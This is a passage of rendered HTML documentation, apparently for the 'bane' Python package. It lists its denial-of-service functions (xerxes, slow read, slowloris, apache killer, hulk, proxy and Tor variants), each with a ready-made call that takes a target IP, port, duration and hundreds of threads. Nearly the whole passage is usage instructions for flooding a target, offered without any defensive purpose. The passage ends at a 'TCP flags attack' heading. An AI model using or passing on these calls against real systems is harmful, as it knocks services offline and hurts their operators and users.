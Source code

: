 <div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.xerxes(IP, p= port , duration= 300 ,set_tor=False , threads=500 , timeout=5 )
</pre></div>
<h4>Xerxes attack through proxies:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.prox_xerxes(IP, p= port , duration= 300 , threads=500 , timeout=5 )
</pre></div>
<h4>Slow read attack:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.slow_read(IP, p= port , duration= 300 , set_tor=False , threads=500 , timeout=5 )
</pre></div>
<h3>The below DDoS functions have been disabled and will be added again soon:</h3>
<h4>Slow proxies flood:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.prox_slow(IP, p= port , duration= 300 , set_tor=False , threads=500 , timeout=5 )
</pre></div>
<h4>Apache killer attack:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.apache_killer(IP, p= port , duration= 300 , set_tor=False , threads=500 , timeout=5 )
</pre></div>
<h4>Slowloris attack:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.slowloris(IP, p= port , duration= 300 , set_tor=False , threads=50 , timeout=5 )
</pre></div>
<h4>Slowloris attack through proxies:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.prox_slowloris(IP, p= port , duration= 300 , threads=500 , timeout=5 )
</pre></div>
<h4>Hulk attack:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.hulk(IP , duration= 300 , set_tor=False , threads=500 , timeout=5 )
</pre></div>
<h4>Hulk attack through proxies:</h4>

<div style="background: #f8f8f8; overflow:auto;width:auto;border:solid gray;border-width:.1em .1em .1em .8em;padding:.2em .6em;"><pre style="margin: 0; line-height: 125%">bane.prox_hulk(IP , duration= 300 , set_tor=False , threads=500 , timeout=5 )
</pre></div>
<h4>TCP flags attack:</h4>
